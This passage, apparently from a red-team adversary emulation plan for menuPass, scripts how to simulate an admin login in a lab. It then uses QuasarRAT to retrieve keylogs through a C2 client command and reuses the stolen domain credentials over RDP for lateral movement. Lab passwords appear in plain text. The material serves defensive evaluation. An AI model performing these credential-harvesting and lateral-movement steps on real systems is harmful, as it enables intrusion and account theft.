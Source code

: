 menuPass initiates a new RDP to the IIS server `gabumon (10.10.10.9)` using
the compromised credentials from Step 1.

Using the RDP to the IIS Server `gabumon (10.10.10.9)`, menuPass opens
PowerShell with administrative privileges and authenticates using the domain
admin's credentials.

### ☣️ Procedures

> :fast_forward: Emulate the following legitimate user activity:
>
> * :arrow_right: initiate an RDP session from the jumpbox `homelander (176.59.17.22)` to `gabumon (10.10.10.9)` as the IIS Admin:
>
>   | Username | Password |
>   | -------- | -------- |
>   | DIGIRUNAWAY\kizumi | ydJEeqNzN4Xqkd9h@ |
>
> * Open Command Prompt with administrative privileges, execute cmd via `runas` with their Domain Admin username, **typing the password when prompted**:
>
>    ```
>    runas /user:DIGIRUNAWAY\kizumi.da cmd
>    ```
>
>   * **Type, DO NOT copy and paste,** the following when prompted:
>
>       ```
>       ydJEeqNzN4Xqkd9h@
>       ```
>
> * Close the Command Prompts then **disconnect** from the RDP when finished. You should return to `homelander (116.83.1.29)`
>
> :fast_forward: Resume red team activity

* Using the first QuasarRAT on the IIS server `gabumon (10.10.10.9)`, retrieve
keylogs:

  ```
  ./evalsC2client.py --set-task F5B06FACBDB06686ABA3E958BE433EF5 '{"type": 4}'
  ```

* Initiate a new RDP to the IIS server `gabumon (10.10.10.9)` using the
stolen credentials from Step 1.

  | Username | Password |
  | -------- | -------- |
  | DIGIRUNAWAY\kizumi | ydJEeqNzN4Xqkd9h@ |

* Within the RDP to the IIS server `gabumon (10.10.10.9)`, open Command Prompt
with administrative privileges (if not already open) then execute the following
runas command, entering the kizumi.da password when prompted:
